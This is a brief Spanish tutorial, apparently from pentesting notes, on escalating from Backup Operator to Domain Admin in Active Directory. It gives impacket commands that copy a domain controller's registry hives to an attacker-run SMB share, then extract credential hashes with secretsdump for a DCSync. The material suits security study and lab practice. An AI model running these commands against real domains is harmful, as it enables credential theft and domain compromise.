

# Backup Operator to Domain Admin Attack

### [Video](https://youtu.be/wUy2VXL2y-w)

## ¿Qué es?

- Es un ataque que permite a un atacante escalar privilegios de **Backup Operator** a **Domain Admin**.
- Se basa en la capacidad de los operadores de backup de realizar copias de seguridad de los controladores de dominio.
- Los operadores de backup pueden leer y escribir en los controladores de dominio.

## Ataque explicado

- En este ejemplo el usuario **melissa** es miembro de **Backup Operators**.

### Metodo 1 con impacket
- Abris un smbserver con impacket
    - `impacket-smbserver -smb2support "share" .`
- Luego con el usuario backup operator podes hacer un backup de los archivos del DC
    - `impacket-reg domain/melissa@IP-DE-COMPUTADORA-QUE-MELISSA-PUEDE-ACCEDER backup -o \\IP-DE-TU-MAQUINA\share`
- Entonces con secretsdump podes obtener las credenciales de los usuarios
    - `impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL`
    - Y con esto es muy probable que nos de un hash con un usuario que nos deje hacer un DCSync.